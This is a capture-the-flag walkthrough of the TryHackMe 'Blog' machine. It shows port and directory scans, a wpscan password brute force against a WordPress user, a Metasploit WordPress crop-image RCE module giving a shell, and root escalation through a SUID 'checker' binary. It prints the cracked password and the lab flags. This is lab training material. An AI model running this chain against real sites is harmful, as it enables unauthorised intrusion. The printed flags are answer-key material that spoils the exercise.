

Welcome to my TryHackMe-Blog-WriteUp! first we add machines ip adress on our /etc/hosts file as blog.thm:
echo "10.10.153.19 blog.thm" >> /etc/hosts
after that we start enumeration with rustscan and nmap:
┌─[✗]─[root@parrot]─[/home/parrot]
└──╼ #rustscan -a blog.thm
.----. .-. .-. .----..---. .----. .---. .--. .-. .-.
| {} || { } |{ {__ {_ _}{ {__ / ___} / {} \ | `| |
| .-. \| {_} |.-._} } | | .-._} |\ |/ /\ \| |\ |
`-' `-'`-----'`----' `-' `----' `---' `-' `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog :
: https://github.com/RustScan/RustScan :
--------------------------------------
You miss 100% of the ports you don't scan. - RustScan
[~] The config file is expected to be at "/root/.rustscan.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'.
Open 10.10.153.19:22
Open 10.10.153.19:80
[~] Starting Script(s)
[~] Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-07 17:36 +03
Initiating Ping Scan at 17:36
Scanning 10.10.153.19 [4 ports]
Completed Ping Scan at 17:36, 0.37s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 17:36
Scanning blog.thm (10.10.153.19) [2 ports]
Discovered open port 80/tcp on 10.10.153.19
Discovered open port 22/tcp on 10.10.153.19
Completed SYN Stealth Scan at 17:36, 0.41s elapsed (2 total ports)
Nmap scan report for blog.thm (10.10.153.19)
Host is up, received reset ttl 60 (0.35s latency).
Scanned at 2024-05-07 17:36:34 +03 for 0s
PORT STATE SERVICE REASON
22/tcp open ssh syn-ack ttl 60
80/tcp open http syn-ack ttl 60
Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.87 seconds
Raw packets sent: 6 (240B) | Rcvd: 3 (128B)
┌─[root@parrot]─[/home/parrot]
└──╼ #nmap -sC -sV -A -Pn blog.thm -p 22,80
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-07 17:38 +03
Nmap scan report for blog.thm (10.10.153.19)
Host is up (0.36s latency).
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 57:8a:da:90:ba:ed:3a:47:0c:05:a3:f7:a8:0a:8d:78 (RSA)
| 256 c2:64:ef:ab:b1:9a:1c:87:58:7c:4b:d5:0f:20:46:26 (ECDSA)
|_ 256 5a:f2:62:92:11:8e:ad:8a:9b:23:82:2d:ad:53:bc:16 (ED25519)
80/tcp open http Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-robots.txt: 1 disallowed entry
|_/wp-admin/
|_http-title: Billy Joel's IT Blog – The IT blog
|_http-generator: WordPress 5.0
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 2.6.32 (93%), Linux 2.6.39 - 3.2 (93%), Linux 3.1 - 3.2 (93%), Linux 3.2 - 4.9 (93%), Linux 3.7 - 3.10 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 5 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
TRACEROUTE (using port 22/tcp)
HOP RTT ADDRESS
1 232.47 ms 10.17.0.1
2 ... 4
5 354.48 ms blog.thm (10.10.153.19)
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 43.92 seconds
then we see in results only two ports are open. After some research we find out there is no vulnerablity for the services with this versions. So we continue enumaration on port 80 with gobuster:
┌─[root@parrot]─[/home/parrot]
└──╼ #gobuster dir -u http://blog.thm/ -w common.txt -x php,html,txt,old,cgi,js
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url: http://blog.thm/
[+] Method: GET
[+] Threads: 10
[+] Wordlist: common.txt
[+] Negative Status codes: 404
[+] User Agent: gobuster/3.6
[+] Extensions: txt,old,cgi,js,php,html
[+] Timeout: 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html (Status: 403) [Size: 273]
/.php (Status: 403) [Size: 273]
/.hta (Status: 403) [Size: 273]
/.hta.txt (Status: 403) [Size: 273]
/.hta.old (Status: 403) [Size: 273]
/.hta.cgi (Status: 403) [Size: 273]
/.htaccess (Status: 403) [Size: 273]
/.hta.html (Status: 403) [Size: 273]
/.htaccess.html (Status: 403) [Size: 273]
/.htaccess.txt (Status: 403) [Size: 273]
/.htaccess.old (Status: 403) [Size: 273]
/.htaccess.cgi (Status: 403) [Size: 273]
/.htaccess.js (Status: 403) [Size: 273]
/.htaccess.php (Status: 403) [Size: 273]
/.htpasswd.txt (Status: 403) [Size: 273]
/.htpasswd (Status: 403) [Size: 273]
/.htpasswd.html (Status: 403) [Size: 273]
/.htpasswd.old (Status: 403) [Size: 273]
/.htpasswd.cgi (Status: 403) [Size: 273]
/.hta.php (Status: 403) [Size: 273]
/.htpasswd.js (Status: 403) [Size: 273]
/.hta.js (Status: 403) [Size: 273]
/.htpasswd.php (Status: 403) [Size: 273]
/0 (Status: 301) [Size: 0] [--> http://blog.thm/0/]
/admin (Status: 302) [Size: 0] [--> http://blog.thm/wp-admin/]
/atom (Status: 301) [Size: 0] [--> http://blog.thm/feed/atom/]
/dashboard (Status: 302) [Size: 0] [--> http://blog.thm/wp-admin/]
/embed (Status: 301) [Size: 0] [--> http://blog.thm/embed/]
/favicon.ico (Status: 200) [Size: 0]
/feed (Status: 301) [Size: 0] [--> http://blog.thm/feed/]
/index.php (Status: 301) [Size: 0] [--> http://blog.thm/]
/index.php (Status: 301) [Size: 0] [--> http://blog.thm/]
/license.txt (Status: 200) [Size: 19935]
/login (Status: 302) [Size: 0] [--> http://blog.thm/wp-login.php]
/n (Status: 301) [Size: 0] [--> http://blog.thm/2020/05/26/note-from-mom/]
/N (Status: 301) [Size: 0] [--> http://blog.thm/2020/05/26/note-from-mom/]
/no (Status: 301) [Size: 0] [--> http://blog.thm/2020/05/26/note-from-mom/]
/note (Status: 301) [Size: 0] [--> http://blog.thm/2020/05/26/note-from-mom/]
/page1 (Status: 301) [Size: 0] [--> http://blog.thm/]
/rdf (Status: 301) [Size: 0] [--> http://blog.thm/feed/rdf/]
/readme.html (Status: 200) [Size: 7415]
/robots.txt (Status: 200) [Size: 67]
/rss (Status: 301) [Size: 0] [--> http://blog.thm/feed/]
/rss2 (Status: 301) [Size: 0] [--> http://blog.thm/feed/]
/server-status (Status: 403) [Size: 273]
/w (Status: 301) [Size: 0] [--> http://blog.thm/2020/05/26/welcome/]
/W (Status: 301) [Size: 0] [--> http://blog.thm/2020/05/26/welcome/]
/welcome (Status: 301) [Size: 0] [--> http://blog.thm/2020/05/26/welcome/]
/wp-admin (Status: 301) [Size: 307] [--> http://blog.thm/wp-admin/]
/wp-app.php (Status: 403) [Size: 0]
/wp-atom.php (Status: 301) [Size: 0] [--> http://blog.thm/feed/atom/]
/wp-commentsrss2.php (Status: 301) [Size: 0] [--> http://blog.thm/comments/feed/]
/wp-config.php (Status: 200) [Size: 0]
/wp-content (Status: 301) [Size: 309] [--> http://blog.thm/wp-content/]
/wp-cron.php (Status: 200) [Size: 0]
/wp-feed.php (Status: 301) [Size: 0] [--> http://blog.thm/feed/]
/wp-includes (Status: 301) [Size: 310] [--> http://blog.thm/wp-includes/]
/wp-links-opml.php (Status: 200) [Size: 233]
/wp-load.php (Status: 200) [Size: 0]
/wp-login.php (Status: 200) [Size: 3087]
/wp-mail.php (Status: 403) [Size: 2768]
/wp-rdf.php (Status: 301) [Size: 0] [--> http://blog.thm/feed/rdf/]
/wp-register.php (Status: 301) [Size: 0] [--> http://blog.thm/wp-login.php?action=register]
/wp-rss.php (Status: 301) [Size: 0] [--> http://blog.thm/feed/]
/wp-rss2.php (Status: 301) [Size: 0] [--> http://blog.thm/feed/]
/wp-settings.php (Status: 500) [Size: 0]
/wp-signup.php (Status: 302) [Size: 0] [--> http://blog.thm/wp-login.php?action=register]
/xmlrpc.php (Status: 405) [Size: 42]
/xmlrpc.php (Status: 405) [Size: 42]
Progress: 32298 / 32305 (99.98%)
===============================================================
Finished
===============================================================
We see there is too much directories. First we go to the robots.txt and we see there is some infos:
After some research we find out when we go to the /wp-admin its redirects us to a wordpress login page. So we found our first flag "What CMS was Billy using?" answer for this question is wordpress. When we try with some common credentials we cant login. So we need a username after some research we find out when we go the http://blog.thm and click comments after that when we click back button on the browser we see something interesting:
So we see there is a author named kwheel. Its Karen Wheeler's username. When we try for username bjoel its too exists but if we try bruteforce attack for bjoel we cant find password in rockyou.txt . Then we start a bruteforce attack with wpscan with this command for kwheel:
wpscan --url http://10.10.35.12/wp-login.php -U kwheel -P /home/parrot/rockyou.txt
And then we find the password and during the bruteforce attack wpscan gives us the second flag "What version of the above CMS was being used?":
When we login with this credentials we see there is no plugins. After some research i found a great exploit for wordpress 5. So we use the exploit exploit/multi/http/wp_crop_rce . and then we set options like this and run:
set RHOSTS blog.thm
set USERNAME kwheel
set PASSWORD cutiepie1
run
And we see its worked we have a meterpreter shell. Then we use this commands to get a normal shell:
shell
python3 -c 'import pty;pty.spawn("/bin/bash")'
After that we are in as user www-data. When we go to the home directory and we see there is a user named bjoel and in bjoel directory there is user.txt but it doesn't give us a flag:
(Meterpreter 2)(/var/www/wordpress) > shell
Process 6607 created.
Channel 1 created.
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@blog:/var/www/wordpress$ cd /home
cd /home
www-data@blog:/home$ ls -la
ls -la
total 12
drwxr-xr-x 3 root root 4096 May 26 2020 .
drwxr-xr-x 24 root root 4096 May 25 2020 ..
drwxr-xr-x 4 bjoel bjoel 4096 May 26 2020 bjoel
www-data@blog:/home$ cd bjoel
cd bjoel
www-data@blog:/home/bjoel$ ls -la
ls -la
total 100
drwxr-xr-x 4 bjoel bjoel 4096 May 26 2020 .
drwxr-xr-x 3 root root 4096 May 26 2020 ..
lrwxrwxrwx 1 root root 9 May 26 2020 .bash_history -> /dev/null
-rw-r--r-- 1 bjoel bjoel 220 Apr 4 2018 .bash_logout
-rw-r--r-- 1 bjoel bjoel 3771 Apr 4 2018 .bashrc
drwx------ 2 bjoel bjoel 4096 May 25 2020 .cache
drwx------ 3 bjoel bjoel 4096 May 25 2020 .gnupg
-rw-r--r-- 1 bjoel bjoel 807 Apr 4 2018 .profile
-rw-r--r-- 1 bjoel bjoel 0 May 25 2020 .sudo_as_admin_successful
-rw-r--r-- 1 bjoel bjoel 69106 May 26 2020 Billy_Joel_Termination_May20-2020.pdf
-rw-r--r-- 1 bjoel bjoel 57 May 26 2020 user.txt
www-data@blog:/home/bjoel$ cat user.txt
cat user.txt
You won't find what you're looking for here.
TRY HARDER
www-data@blog:/home/bjoel$
Then we use this command to see which files runs with root privileges:
find / -perm -u=s -type f 2>/dev/null
And we see there is a file called checker:
www-data@blog:/home/bjoel$ find / -perm -u=s -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/newuidmap
/usr/bin/pkexec
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/at
/usr/bin/newgidmap
/usr/bin/traceroute6.iputils
/usr/sbin/checker
When we use command "ltrace checker" to look what this file does we see this output:
www-data@blog:/home/bjoel$ ltrace checker
ltrace checker
getenv("admin") = nil
puts("Not an Admin"Not an Admin
) = 13
+++ exited (status 0) +++
What this "checker" is doing is calling a getenv() on "admin" variable and returning its value i.e. "nil", because the "admin" environment variable does not exist, so on running "checker" it's giving the output "Not an admin".So we can give admin variable any value to exploit the vulnerability of "checker" and get root privileges:
www-data@blog:/home/bjoel$ export admin=0
export admin=0
www-data@blog:/home/bjoel$ checker
checker
root@blog:/home/bjoel# whoami
whoami
root
root@blog:/home/bjoel#cat /root/root.txt
cat /root/root.txt
9a0b2b618bef9bfa7ac28c1353d9f318
And done. We are root and we get our root flag. For to find where is user.txt we can use this command:
find / -name "user.txt" 2>/dev/null
Then we see same file name exists in two different locations. In first one we couldn't find something. Then when we try second file we get our user flag:
root@blog:/home/bjoel# find / -name "user.txt" 2>/dev/null
find / -name "user.txt" 2>/dev/null
/home/bjoel/user.txt
/media/usb/user.txt
root@blog:/home/bjoel# cat /media/usb/user.txt
cat /media/usb/user.txt
c8421899aae571f7af486492b71a8ab7
And done we got our last flag. Thanks for reading!